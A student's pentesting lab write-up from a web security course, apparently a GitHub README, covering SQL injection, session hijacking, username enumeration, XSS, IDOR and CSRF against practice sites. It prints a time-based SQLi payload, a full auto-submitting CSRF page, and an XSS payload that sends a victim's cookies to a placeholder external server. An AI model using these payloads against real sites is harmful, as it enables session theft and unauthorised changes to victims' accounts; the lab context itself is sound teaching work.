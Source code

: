 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)
* Inject SQL code into the URL after "id=" with " 2' and SLEEP(5)=0--' ", which will cause the site to delay for 5 seconds before directing to the other page.

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/sqlinject.gif">

Vulnerability #2: Session Hijacking
* Log in to the page and find the Session ID using the premade script change_session_id.php, then on another browser using the same script, change the Session ID to the one from the previous browser.

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/session.gif">

## Green

Vulnerability #1: Username Enumeration
* When a NON-existing username is entered, the "Log in was unsuccessful." message is unbolded.

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/userenum.gif">

Vulnerability #2: Cross-Site Scripting (XSS)
* Inject a script through the feedback form and wait for a logged-in user to check it

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/xss.gif">


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)
* By changing the value of "id" in the URL, a visitor is able to view pages/information that was meant to be private

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/idor.gif">

Vulnerability #2: Cross-Site Request Forgery (CSRF)
* Forged a form using the code below. Then allowed a logged-in user to visit the page, resulting in a CSRF POST request attack

```
<html>
  <head>
  </head>
  <body>
  	<h1><center>Totally Normal Site</center></h1>
    	<form name="csrfForm" action="https://35.184.21.59/red/public/staff/salespeople/edit.php?id=1" 
	method="post" target="hide">

		<input type="hidden" name="first_name" value="Site Hacked">
		<input type="hidden" name="last_name" value="By Brian">
	</form>
	<iframe name="hide" style="display: none;"></iframe>
	<script>
 		document.csrfForm.submit();
	</script>
  </body>
</html>
```

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/csrf.gif">

## Bonus Objectives

Bonus Objective 2: Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.
* Inject the script ```<script>document.location = "https://google.com";</script>``` into feedback form. When a logged in user checks the feedback, the script will redirect them to https://google.com

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/bonus2a.gif">

* We can also steal cookie data using ```<script>document.write('<img src="https://yourserver.com/collect.gif?cookie=' + document.cookie + '" />')</script>``` which will cause the logged in user to send their cookie to your target website
* It is also possible to set up a CSRF page to set someone's cookie data and using XSS redirect that user to the page

## Notes
